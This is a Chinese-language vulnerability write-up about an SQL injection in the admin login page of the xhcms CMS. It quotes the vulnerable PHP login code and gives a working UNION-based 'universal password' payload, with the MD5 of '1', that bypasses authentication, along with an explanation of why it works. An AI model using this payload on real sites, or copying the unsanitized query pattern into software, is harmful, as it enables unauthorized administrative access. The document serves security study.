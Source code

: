 #### 漏洞详情： ####
漏洞位置：admin/files/login.php

    <?php 
    ob_start();
    require '../inc/conn.php';
    $login=$_POST['login'];
    $user=$_POST['user'];
    $password=$_POST['password'];
    $checkbox=$_POST['checkbox'];
    
    if ($login<>""){
    $query = "SELECT * FROM manage WHERE user='$user'";
    $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
    $users = mysql_fetch_array($result);
    
    if (!mysql_num_rows($result)) {  
    echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
    exit;
    }else{
    $passwords=$users['password'];
    if(md5($password)<>$passwords){
    echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
    exit;   
    }
    //写入登录信息并记住30天
    if ($checkbox==1){
    setcookie('user',$user,time()+3600*24*30,'/');
    }else{
    setcookie('user',$user,0,'/');
    }
    echo "<script>this.location='?r=index'</script>";
    exit;
    }
    exit;
    ob_end_flush();
    }
    ?>
万能密码登录有两个点：

1.user未经过过滤直接拼接进入数据库查询

2.password的md5对比可绕过

payload:

    user:1' union select 1,2,'test','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#
    password:1
    
    此处md5(1)=c4ca4238a0b923820dcc509a6f75849b

我们进入后台，在账号一栏中填入payload，密码输入mad5加密的1即可成功登录。

![](后台万能密码登录/20200417210643-48d1ff22-80ac-1.png)
![](后台万能密码登录/20200417210717-5cf79732-80ac-1.png)

漏洞分析

我们登录我们的mysql数据库，查询xhcms库下的manage表
![](后台万能密码登录/20200417210537-2174ba32-80ac-1.png)
我们使用联合查询的方法，发现结果在数据库下添加一行新的参数，而添加的值我们是可控的。

所以我们的payload就是通过传入新的md5加密后的password，从而达到绕过验证，直接登录的目的。

### 参考链接 ###
https://xz.aliyun.com/t/7629